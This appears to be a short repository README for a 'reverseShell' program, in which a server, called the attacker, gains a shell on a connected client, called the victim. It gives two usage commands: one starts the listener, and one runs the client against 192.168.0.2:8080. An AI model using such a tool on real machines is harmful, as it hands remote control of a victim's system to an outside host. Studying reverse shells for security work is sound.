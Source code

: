 # reverseShell
This is a program in which a 
**server**(or the attacker)
gains a shell of
**client**(or the victim)
to which it is connected to.

## Usage
### 1. Setup a server and listen for incoming connections.
On your machine setup a server and start listening on a port.

``` 
./server 8080 
```

### 2. Execute client script and setup a connection to the server
You can do this by simply executing the client compiled file

```
./client 192.168.0.2 8080
```

Now you should have a prompt on server machine.

